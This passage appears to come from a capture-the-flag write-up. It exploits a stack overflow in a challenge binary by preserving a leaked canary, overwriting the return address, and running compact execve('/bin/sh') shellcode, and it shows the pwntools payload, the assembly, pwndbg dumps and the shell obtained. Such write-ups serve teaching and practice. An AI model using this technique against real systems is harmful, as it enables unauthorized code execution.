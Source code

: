 Since the maximum payload size is `48` bytes, and our buffer starts at `rbp-0x10` i.e. `16` bytes from `saved old rbp`. We got `16` more bytes for `saved old rbp` and return address. Therefore, we have just `16` bytes left in our payload to write the shellcode. Like the following:  
```py
payload = b'/bin/sh\x00' # 8 bytes from rbp_0x10 to canary
payload += p64(canary) # perserving canary
payload += b'BBBBBBBB'
payload += p64(shellcode_addr)
payload += shellcode1 # <= 16 bytes
```
The way I shorten my shellcode is that I put `b'/bin/sh\x00'` somewhere else on the stack i.e. at the start of our payload. Which then I observed from `pwndbg` and got to know that it would land exactly in `rsp-0x20` during function epilogue and position and `rsp` and `rbp` changed after `leave`.

#### Right before `leave`
```
00:0000│ rsp 0x7ffce95f86a0 ◂— 0
01:0008│-018 0x7ffce95f86a8 ◂— 0x30 /* '0' */
02:0010│ rcx 0x7ffce95f86b0 ◂— 0x68732f6e69622f /* '/bin/sh' */
03:0018│-008 0x7ffce95f86b8 ◂— 0xe3d7d7d67eeb1000
04:0020│ rbp 0x7ffce95f86c0 ◂— 0x4242424242424242 ('BBBBBBBB')
```

#### Right after `leave`:  
```
00:0000│ rsp 0x7ffce95f86c8 —▸ 0x7ffce95f86d0 ◂— 0xe0247c8d4899f631
01:0008│     0x7ffce95f86d0 ◂— 0xe0247c8d4899f631
02:0010│     0x7ffce95f86d8 ◂— 0xa050f3bb0
03:0018│     0x7ffce95f86e0 —▸ 0x7ffce95f87d0 —▸ 0x7ffce95f87d8 ◂— 0x38 /* '8' */
```
And we can see that `rsp`, which is pointing to `0x7ffce95f86d0`, is exactly `0x20` bytes away from `0x7ffce95f86b0` that contains `/bin/sh` and `lea rdi, [rsp-0x20]` is able to get that.
```py
shellcode1 = asm("""
xor esi, esi            
cdq
lea rdi, [rsp-0x20]
mov al, 0x3b            
syscall                
""")   
```
And here in `pwndbg`, we can clearly see our shellcode being executed and `RDI => 0x7ffce95f86b0 ◂— 0x68732f6e69622f /* '/bin/sh' */` 
```
   0x560d297c044b <UwU_main+546>    leave  
   0x560d297c044c <UwU_main+547>    ret                                <0x7ffce95f86d0>
    ↓
 ► 0x7ffce95f86d0                   xor    esi, esi                           ESI => 0
   0x7ffce95f86d2                   cdq    
   0x7ffce95f86d3                   lea    rdi, [rsp - 0x20]                  RDI => 0x7ffce95f86b0 ◂— 0x68732f6e69622f /* '/bin/sh' */
   0x7ffce95f86d8                   mov    al, 0x3b                           AL => 0x3b
   0x7ffce95f86da                   syscall  <SYS_execve>
   0x7ffce95f86dc                   or     al, byte ptr [rax]
   0x7ffce95f86de                   add    byte ptr [rax], al
   0x7ffce95f86e0                   rol    byte ptr [rdi + 0x7ffce95f], 1
   0x7ffce95f86e6                   add    byte ptr [rax], al
```
We let it run and we get the shell!
```
[*] Switching to interactive mode
[DEBUG] Received 0x1 bytes:
    b'\n'

$ ls
[DEBUG] Sent 0x3 bytes:
```